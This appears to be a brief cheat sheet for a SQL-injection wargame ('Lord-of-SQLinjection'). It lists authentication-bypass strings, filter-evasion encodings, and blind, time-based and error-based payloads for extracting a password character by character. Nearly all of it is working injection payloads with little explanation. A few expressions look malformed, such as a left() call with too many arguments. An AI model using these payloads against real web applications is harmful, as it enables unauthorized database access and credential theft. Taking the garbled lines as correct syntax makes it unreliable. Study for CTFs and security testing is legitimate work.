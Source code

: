 # Lord-of-SQLinjection
#web_hacking #SQLinjection

?pw=' or 1=1 --%20  
?pw like "a%"  
?pw like "a_b_c"  
?id in ("admin")  
or -> ||  
and -> %26%26  
admin -> 0x61646d696e  
0x -> 0b  

<h4>bypass ' '</h4>
<ul>%09 (\t)</ul>
<ul>%0a (\n)</ul>
<ul>%0d (\r)</ul>
<ul>%0b</ul>
<ul>%0c</ul>

<h4>Blind SQL injection</h4>
<ul>length(pw)<10</ul>
<ul>ord(substr(pw,2,1)) > 5</ul>
<ul>substr(pw,2,1) > char(5)</ul>
<ul>substring(pw,2,1) > char(5)</ul>
<ul>substr(pw from 2 for 1) > char(5)</ul> 
<ul>ord(right(left(pw,2,1)))>5</ul>

<h4>Time-based SQL injection</h4>
<ul>if((ord(substr(pw,2,1)>5), (sleep(2)), 1)</ul>
<ul>id='admin' and length(pw)=10 and sleep(2)</ul>
<ul>pw=(sleep(3*(length(flag)=10)))</ul>

<h4>Error-based SQL injection</h4>
<ul>if(ord(substr(pw,2,1)>5, (select 1 union select 2), 1)</ul>
<ul>order by (select 1 union select length(pw)<10)</ul>

<li>limit 0,1</li>
<li>and>or</li>
<li>if there is # -> use Line Feed!</li>
<li>if you want to make the query error, pw=1=(select 1 union select 2)</li>
<li>ereg -> %00, case sensitive</li>
